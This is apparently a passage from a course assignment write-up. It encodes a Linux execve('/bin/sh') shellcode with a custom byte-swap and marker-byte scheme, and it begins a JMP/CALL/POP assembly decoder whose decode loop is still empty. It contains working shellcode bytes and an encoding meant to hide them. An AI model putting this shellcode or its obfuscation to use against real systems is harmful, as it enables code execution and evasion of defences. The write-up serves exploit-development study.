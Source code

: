 #### Encoding the shellcode with the python script
```bash
[sengen@manjaro-x86 assignment4]$ python3 swapsert-encoder.py 
Encoded shellcode ...
Original: "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

Format1: "\xc0\x31\x7f\x68\x50\x7f\x2f\x2f\x7f\x68\x73\x7f\x2f\x68\x7f\x69\x62\x7f\x89\x6e\x7f\x50\xe3\x7f\xe2\x89\x7f\x89\x53\x7f\xb0\xe1\x7f\xcd\x0b\x7f\x7f\x80\x7f"
Format2: 0xc0,0x31,0x7f,0x68,0x50,0x7f,0x2f,0x2f,0x7f,0x68,0x73,0x7f,0x2f,0x68,0x7f,0x69,0x62,0x7f,0x89,0x6e,0x7f,0x50,0xe3,0x7f,0xe2,0x89,0x7f,0x89,0x53,0x7f,0xb0,0xe1,0x7f,0xcd,0x0b,0x7f,0x7f,0x80,0x7f
```

### Decoding phase

| Step | Sequence     					| What is happening?                  |
|:---- |:------------------------------ | :---------------------------------- |
| 1    | \x42 \x41 \x7f \x44 \x 43 \x7f	| starting encoded bytes              |
| 2    | \x41 \x42 \x44 \x43 \x7f		| swap 1st&2nd bytes and remove byte  |
| 3    | \x41 \x42 \x43 \x44			| swap 3rd/4th bytes and remove byte  |

The decoder will acquire a reference to the location of the encoded bytes and perform the reverse actions to transform it back to executable shellcode.  To perform this task I started will a skeleton assembly file setup to perform a JMP/CALL/POP so I have the address of the encoded shellcode.

```nasm
global _start			

section .text
_start:
	jmp short call_shellcode

decoder:
	pop esi

decode:

	jmp short EncodedShellcode

call_shellcode:
	call decoder
	EncodedShellcode: db 0xc0,0x31,0x7f,0x68,0x50,0x7f,0x2f,0x2f,0x7f,0x68,0x73,0x7f,0x2f,0x68,0x7f,0x69,0x62,0x7f,0x89,0x6e,0x7f,0x50,0xe3,0x7f,0xe2,0x89,0x7f,0x89,0x53,0x7f,0xb0,0xe1,0x7f,0xcd,0x0b,0x7f,0x7f,0x80,0x7f 
```

The process of decoding requires a few things to be tracked: the current location of the last decoded byte, how far out the next set of bytes to grab is, and finally testing 3 bytes ahead for another \x7f byte.  
